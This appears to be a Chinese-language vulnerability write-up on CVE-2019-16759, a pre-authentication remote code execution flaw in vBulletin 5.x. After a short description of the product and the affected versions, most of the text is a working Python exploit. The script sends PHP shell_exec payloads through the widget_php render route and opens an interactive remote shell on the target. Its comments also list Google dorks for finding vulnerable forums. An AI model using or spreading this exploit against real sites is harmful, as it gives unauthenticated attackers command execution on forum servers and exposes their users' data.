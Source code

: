 ## 前言  

vBulletin 是一个商用的论坛程序，在全球拥有数万用户且增长速度很快。该论坛采用PHP Web语言及MySQL数据库的方式进行架构。《财富》 500强和Alexa排名前100万的公司网站大部分都在使用的一款互联网论坛程序。

## 漏洞简介  

CVE-2019-16759-vBulletin-5.x-0day-pre-auth-RCE-exploit ，无需预认证即可执行远程代码执行漏洞 

## 漏洞危害  

不需要在目标论坛上注册帐户,即可在运行vBulletin安装的服务器上执行shell命令 

## 影响范围  

### 产品  

> vBulletin 5.x 

### 版本  

> vBulletin v5（5.0.0到5.5.4）版本  

### 组件  

> vBulletin  

## 漏洞复现  

## POC

```python
#!/usr/bin/python
#
# vBulletin 5.x 0day pre-auth RCE exploit
# 
# This should work on all versions from 5.0.0 till 5.5.4
#
# Google Dorks:
# - site:*.vbulletin.net
# - "Powered by vBulletin Version 5.5.4"

import requests
import sys

if len(sys.argv) != 2:
    sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

proxies ={
     "http":"http://127.0.0.1:8080/"
}
params = {"routestring":"ajax/render/widget_php"}

while True:
     try:
          cmd = raw_input(">>>Shell= ")
          params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"');echo md5('vBulletin'); exit;"
          r = requests.post(url = sys.argv[1], data = params, proxies=proxies)
          if r.status_code == 200 or r.status_code ==403 and 'be4ea51d962be8308a0099ae1eb3ec63' in r.text:
               print
               print r.text.split('be4ea51d962be8308a0099ae1eb3ec63')[0]
          else:
               sys.exit("Exploit failed! :(")
     except KeyboardInterrupt:
          sys.exit("\nClosing shell...")
     except Exception, e:
          sys.exit(str(e))

```
### 


